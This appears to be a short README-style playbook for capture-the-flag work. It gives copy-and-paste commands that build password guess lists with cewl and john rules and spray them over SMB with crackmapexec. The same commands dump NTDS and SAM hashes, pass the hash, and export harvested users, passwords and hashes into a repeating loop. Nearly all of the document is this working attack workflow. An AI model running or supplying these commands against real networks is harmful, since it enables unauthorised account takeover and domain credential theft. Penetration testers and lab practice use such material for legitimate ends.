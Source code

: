 No more forgetting to collect the obvious clues into a wordlist and manage the accretion of users, password hashes and passwords (clear).

This is 'workflow' / 'playbook' . Jut some simple steps to follow, ideally with copy and paste.  No more missing the obvious clues for usernames and passwords. It would also be great to have some malortron integration too.

The tools in the workflow:
* cewl
* nmap (-sC)
* crackmapexec
* bash pipelines
* john (for rules)
* john (for cracking)
* hashcat (for cracking)

The workflow has a repeated 'core':
1. take 'output' (usernames, clear passwords, wordlists)
2. rules them
3. append to ongoing guesses list

In each workflow task there is a) 'use ongoing wordlist' and b) 'feed outputs into the core.'

# Core

If there are no users discovered and no passwords discovered, use rockyou ;)

Else take all words, usernames and passwords, best64 and passphrase-2 them (for `!` stuff). save as `guesses.txt`

```sh
cat users.txt passwords.txt wordlist.txt > input.txt
john --wordlist=input.txt -ru:passphrase-rule2 --stdout > guesses.txt
john --wordlist=input.txt -ru:best64 --stdout >> guesses.txt
```

If there are no users discovered, copy `guesses.txt` to `users.txt`

# CeWL -- Add to the Wordlist

`cewl -d 3 -a -m 4 --with-numbers -v -w wordlist.txt https://target.domain/` 

# CrackMapExec -- use guesses

`crackmapexec smb -d DOMAIN -u ${ctf}/users.txt -p ${ctf}/guesses.txt --ntds drsuapi 10.1.0.100`

`--sam` instead for listing local accounts
`--shares` instead for listing shares

# CrackMapExec -- use hashes

`crackmapexec smb -d DOMAIN -u ${ctf}/users.txt -H ${ctf}/hashes.txt --ntds drsuapi 10.1.0.100`

# CrackMapExec -- save usernames, passwords, hashes

`{ echo export creds csv creds.csv; echo exit; } | cmedb ; awk -F "\"*,\"*" '{print $3}' creds.csv > users.txt` save users to `users.txt`

`{ echo export creds plaintext passwords.txt; echo exit; } | cmedb` save plaintext/passwords to `passwords.txt`

`{ echo export creds hashes hashes.txt; echo exit; } | cmedb` save hashes to `hashes.txt`
